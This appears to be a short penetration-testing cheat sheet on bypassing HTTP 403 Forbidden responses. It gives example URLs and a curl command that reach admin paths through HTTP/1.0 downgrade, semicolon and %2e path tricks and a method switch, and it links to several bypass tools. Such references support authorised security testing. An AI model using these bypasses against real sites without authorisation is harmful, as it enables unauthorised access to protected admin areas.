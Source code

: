 # 403 Forbidden Bypasses

- HTTP protocol version downgrade
- Semicolon bypass (;)
- Modify the request method and content length
- Append characters

---
### HTTP Protocol Version Downgrade

Method:
  - Capture the request in BurpSuite - Send to Repeater
  - Change the http protocol version from **1.1** to **1.0** and clear all the other headers from the request
  - Forward the request to the Server
  - Reference: [Link](https://medium.com/@abbasheybati1/403-bypass-lyncdiscover-microsoft-com-db2778458c33)
---
### Semicolon Bypass (;)

Method:
Blocked (403 Forbidden):
```CSS
https://www.hackme.in/admin
```
Bypassed (200 OK):
```CSS
https://www.hackme.in/;/admin
https://www.hackme.in/;/admin/config/listConfiguration
```
---
### Modify the Request Method and Content Length

Method:
  - GET => POST
	- Content-Length: 0
```
curl -X POST https://domain.com/admin -H "Content-Length: 0"
```
---
### Append Characters

Method:
  - Append `%2e` before the directory/ file name

Blocked (403 Forbidden):
```
https://domain.com/admin
```
Bypassed (200 OK):
```
https://domain.com/%2e/admin
```
---




#### Tools:
- https://github.com/lobuhi/byp4xx
- https://github.com/iamj0ker/bypass-403
- https://github.com/gotr00t0day/forbiddenpass
- https://github.com/yunemse48/403bypasser
- https://github.com/Dheerajmadhukar/4-ZERO-3
